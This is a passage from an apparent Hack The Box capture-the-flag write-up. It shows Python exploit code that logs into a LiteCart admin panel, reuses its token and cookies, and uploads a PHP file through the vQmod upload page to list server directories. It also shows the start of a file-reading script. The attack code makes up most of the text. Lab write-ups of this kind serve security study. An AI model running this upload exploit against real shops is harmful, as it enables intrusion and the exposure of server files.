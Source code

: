 ```python
br.set_handle_equiv( True )
br.set_handle_redirect( True )
br.set_handle_referer( True )
br.set_handle_robots( False )
br.addheaders = [ ( 'User-agent', 'Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Gecko/2008071615 Fedora/3.0.1-1.fc9 Firefox/3.0.1' ) ]
response = br.open(url)
br.select_form(name="login_form")
br["username"] = user
br["password"] = password
res = br.submit()
response = br.open(url + "?app=vqmods&doc=vqmods")
one=""
for form in br.forms():
    one= str(form).split("(")
    one= one[1].split("=")
    one= one[1].split(")")
    one = one[0]
cookies = br._ua_handlers['_cookies'].cookiejar
cookie_dict = {}
for c in cookies:
    cookie_dict[c.name] = c.value
rand = ''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(5))
files = {
        'vqmod': (rand + ".php", "<?php print_r(scandir('" + directory + "')); ?>", "application/xml"),
        'token':one,
        'upload':(None,"Upload")
    }
response = requests.post(url + "?app=vqmods&doc=vqmods", files=files, cookies=cookie_dict)
r = requests.get(url + "../vqmod/xml/" + rand + ".php?c=id")
if r.status_code == 200:
    #print "Shell => " + url + "../vqmod/xml/" + rand + ".php?c=id"
    print r.content
else:
    print "Sorry something went wrong"
```

Let's see if we can "list" `/home`.

{% include image.html image_alt="be375d2d.png" image_src="/93ee34f6-74ca-497c-9631-f0f65044a19b/be375d2d.png" %}

<div class="filename"><span>read.py</span></div>

```python
#!/usr/bin/env python
import mechanize
import cookielib
import urllib2
import requests
import sys
import argparse
import random
import string
parser = argparse.ArgumentParser(description='LiteCart')
parser.add_argument('-t',
                    help='admin login page url - EX: https://IPADDRESS/admin/')
parser.add_argument('-p',
                    help='admin password')
parser.add_argument('-u',
                    help='admin username')
parser.add_argument('-f',
                    help='file to read')
args = parser.parse_args()
```

[1]: https://www.hackthebox.eu/home/machines/profile/276
[2]: https://www.hackthebox.eu/home/users/profile/103781
[3]: https://www.hackthebox.eu/